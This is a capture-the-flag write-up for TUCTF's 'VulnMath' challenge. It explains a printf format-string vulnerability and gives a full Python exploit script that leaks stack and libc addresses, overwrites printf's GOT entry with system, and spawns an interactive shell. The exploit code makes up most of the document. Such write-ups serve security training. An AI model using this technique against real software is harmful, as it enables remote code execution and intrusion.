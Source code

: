 > Enter the belly of the beast and emerge victorious.

Solved by Vanilla

The program poses as a “math challenge” thing, where it gives you five problems to solve, figures out whether you get them right or not, and tallies up your score afterwards.  There’s nothing interesting there.  But, if you get a problem wrong, it printf()s your (wrong) input.  Your input goes on the stack too, so we can set our own addresses to write to, so we can easily set up a write-what-where primitive.  The executable is also only partial RELRO, and PIE is off, so the easiest exploitation strategy would be to replace some function with user-controlled input with system.  I replaced printf itself with system just because I know I control its input.  This requires a couple of printfs.  I planned out my exploitation strategy like so:
Printf 1: leak stack location for own buffer
Printf 2: leak libc location by reading GOT
Printf 3: overwrite GOT for printf to system
Printf 4: give “/bin/sh” as input, which goes to “printf” (which is now system), so we end up calling system(“/bin/sh”)
Libc was also given to us so there’s no trouble guessing libc offsets or anything, we just know them to begin with.

#!/usr/bin/env python3
import struct
import subprocess
import vanillib

INTRO = b"Welcome to VulnMath\nWhere your wildest shells can come true\n\n"
ANKS_ADDR = 0x804A089 + 2
MALLOC_GOT_ADDR = 0x804C01C
PRINTF_GOT_ADDR = 0x804C010

#LIBC_PATH = "/lib/i386-linux-gnu/libc.so.6"
LIBC_PATH = "libc.so.6"


def extract_libc_data(path):
    malloc_offset = int(
        subprocess.check_output(["r2", path, "-qc", "s sym.malloc;? $$~hex"])
        .decode()
        .split()[1],
        16,
    )
    system_offset = int(
        subprocess.check_output(["r2", path, "-qc", "s sym.system;? $$~hex"])
        .decode()
        .split()[1],
        16,
    )
    bin_sh_offset = int(
        subprocess.check_output(
            ["r2", path, "-qc", "/ /bin/sh;s hit0_0;? $$~hex"],
            stderr=subprocess.DEVNULL,
        )
        .decode()
        .split("\n")[1]
        .split()[1],
        16,
    )
    return malloc_offset, system_offset, bin_sh_offset


def exploit(iface):
    libc_malloc_offset, libc_system_offset, libc_bin_sh_offset = extract_libc_data(
        LIBC_PATH
    )

    iface.expect(INTRO)
    iface.read_until(b"\n> ")
    iface.write(b"%20$08X%17$08X\n")
    iface.expect(b"Incorrect!\n")
    main_ebp = int(iface.read(8), 16) - 24
    heap_addr = int(iface.read(8), 16)
    #print("EBP is 0x{:08X}".format(main_ebp))
    #print("Heap is at 0x{:08X}".format(heap_addr))
    iface.read_until(b"\n> ")
    # iface.write(struct.pack("<I", ANKS_ADDR) + b"%6$s\n")
    iface.write(struct.pack("<I", MALLOC_GOT_ADDR) + b"%6$s\n")
    iface.expect(b"Incorrect!\n" + struct.pack("<I", MALLOC_GOT_ADDR))
    (malloc_addr,) = struct.unpack_from("<I", iface.read_until(b"\n> "))
    libc_addr = malloc_addr - libc_malloc_offset
    #print("Libc is at 0x{:08X}".format(libc_addr))
    assert libc_addr % 0x1000 == 0
    payload = bytearray()
    payload.extend(struct.pack("<I", PRINTF_GOT_ADDR))
    payload.extend(struct.pack("<I", PRINTF_GOT_ADDR + 2))
    assert b"\0" not in payload
    assert b"%" not in payload
    system_addr = libc_addr + libc_system_offset
    lower_target = system_addr & 0xFFFF
    upper_target = system_addr >> 16
    payload.extend(
        "%{}d%6$hn%{}d%7$hn".format(
            (lower_target - 8) % 0x10000, (upper_target - lower_target) % 0x10000
        ).encode("ascii")
    )
    assert len(payload) <= 0x20
    payload.extend(b"\0" * (0x40 - len(payload)))
    payload.extend(b" echo SHELL; exec sh -il 2>&1\n")
    iface.write(payload)
    iface.read_until(b"SHELL\n")
    iface.interact()


main = vanillib.stub_main(exploit)

if __name__ == "__main__":
    main()

Flag: TUCTF{I_w45_w4rn3d_4b0u7_pr1n7f..._bu7_I_d1dn'7_l1573n}


